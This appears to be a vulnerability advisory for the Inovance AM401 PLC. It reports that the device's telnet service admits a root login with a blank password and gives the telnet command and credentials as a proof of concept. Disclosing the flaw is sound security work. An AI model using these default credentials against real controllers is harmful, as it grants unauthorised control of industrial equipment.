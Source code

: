 # Summary
Inovance AM401 PLC telnet has a weak password vulnerability, attackers can log in to the PLC device through the weak password.
# Details
Connectivity test of the device:
![image](https://github.com/user-attachments/assets/44cff17b-8e33-4452-a99a-361b0d14bd49)

Telnet to the device:
```bash
telnet 192.168.1.88
```
Log in with a weak password, username `root`, and a blank password.
![image](https://github.com/user-attachments/assets/250a0a0c-303a-41b3-86ae-53306f0db7b0)


# PoC
```bash
telnet 192.168.1.88
```

username: root

password: (None)

# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
